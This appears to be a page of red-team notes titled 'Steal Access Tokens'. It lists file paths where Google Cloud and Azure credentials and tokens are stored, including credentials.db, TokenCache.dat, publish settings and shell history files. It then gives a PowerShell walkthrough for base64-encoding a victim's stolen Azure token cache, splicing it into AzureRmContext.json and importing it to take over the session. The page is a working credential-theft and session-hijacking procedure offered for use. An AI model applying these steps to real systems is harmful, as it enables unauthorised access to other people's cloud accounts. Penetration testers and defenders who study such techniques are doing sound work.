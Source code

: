 # Steal Access Tokens

## Steal Access Tokens

### Google Cloud Platform

Json tokens can be used to authenticate with gcloud and ScoutSuite

* google json tokens
* credentials.db

Can be found in `$HOME/.config/gcloud/credentials.db`

### Azure Cloud

Credentials and Certs can be found in&#x20;

* `.cspkg` packages
* Visual Studio Publish directory , ie **\<project>\bin\debug\publish**
*   Azure publish settings files, ie **.publishsettings :**

    * base64 encoded management certificat
    * cleartext creds
    * managementCertificat section in publishsettings file (export in .pfx file)
    * Download directory and VS projects


* Web config and App configs (root folder).
* Internal code Repo
  * scan web server (ports 80,443 etc) and use Eyewitness to screenshot everything to gain time
  *   Query add for hostnames and subdomains like

      * git
      * code
      * repo
      * bitbucket
      * gitlab


* Token on the disk in %USERPROFILE%\\.azure\ (TokenCache.dat) and ssaved json files
*   Command history

    * linux = .bash\_history
    * powershell = %USERPROFILE%\Appdata\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost\_history.txt



### Import Stolen Azure Tokens

The victim is using powershell to connect to azure

#### Victim side

* import powershell Az module&#x20;

```csharp
Import-Module Az
Connect-AzAccount
```

![](../../../../.gitbook/assets/8203f1d7f66545cf8df57f51bc280f78.png)

#### Attacker side

* On the compromised host, create a folder and copy the victim tokens **TokenCache.dat and AzureRmContext.json**

![](../../../../.gitbook/assets/93572d16e36d4bac9cf08d357910b11d.png)

* Import Az module and list available sessions

```bash
PS C:> import-module az 
PS C:> Get-AzContext -ListAvailable
```

* Convert stolen Token to base64:

```bash
PS C:\> import-module az
PS C:\> Get-AzContext -ListAvailable
PS C:\> $bytes = Get-Content "C:\temp\live_tokens\TokenCache.dat" -Encoding byte
PS C:\> $b64 = [Convert]::ToBase64String($bytes)
PS C:\> Add-Content "C:\temp\live_tokens\b64-token.txt" $b64
```

* Add stolen b64 text content into stolen AzureRmContext.json (CacheData line) and save it as "Whatever.json"

![](../../../../.gitbook/assets/5b1b47ee4b4f40ce826ecfff982343ae.png)

* import the stolen token into a new powershell session&#x20;

```bash
Import-AzContext -Profile "C:\temp\live_tokens\StolenToken.json"
$context = Get-AzContext
$context.Account
```

![](../../../../.gitbook/assets/4131457a9edb478ea34cb83492f48978.png)

